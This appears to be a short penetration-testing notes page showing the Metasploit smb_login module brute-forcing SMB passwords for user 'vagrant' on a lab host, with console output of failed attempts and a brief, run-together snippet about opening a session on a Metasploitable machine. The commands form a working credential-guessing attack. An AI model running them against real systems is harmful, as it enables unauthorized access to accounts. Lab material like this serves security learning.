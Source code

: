# Pre-requisite - [[SMB]]
- The SMB Login Check Scanner auxiliary module will test an SMB login on a range of machines and report successful logins:
# Code - 
```python
msf6 auxiliary(scanner/smb/smb_enumusers) > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.216.11 
RHOSTS => 192.168.216.11
msf6 auxiliary(scanner/smb/smb_login) > set SMBUSER vagrant
SMBUSER => vagrant
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/password.lst
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/password.lst
msf6 auxiliary(scanner/smb/smb_login) > run

[*] 192.168.216.11:445    - 192.168.216.11:445 - Starting SMB login bruteforce
[-] 192.168.216.11:445    - 192.168.216.11:445 - Failed: '.\vagrant:!@#$%',
[-] 192.168.216.11:445    - 192.168.216.11:445 - Failed: '.\vagrant:!@#$%^',
[-] 192.168.216.11:445    - 192.168.216.11:445 - Failed: '.\vagrant:clueless',
^C[*] 192.168.216.11:445    - Caught interrupt from the console...
[*] Auxiliary module execution completed
```

#### To interact with the new session, use the sessions command with the -i option to interact with the session and supply the session ID, in this case 1:
```python
msf auxiliary(ssh_login) > sessions -i 1 [*] Starting interaction with 1... hostname metasploitable id uid=1001(user) gid=1001(user) groups=1001(user
```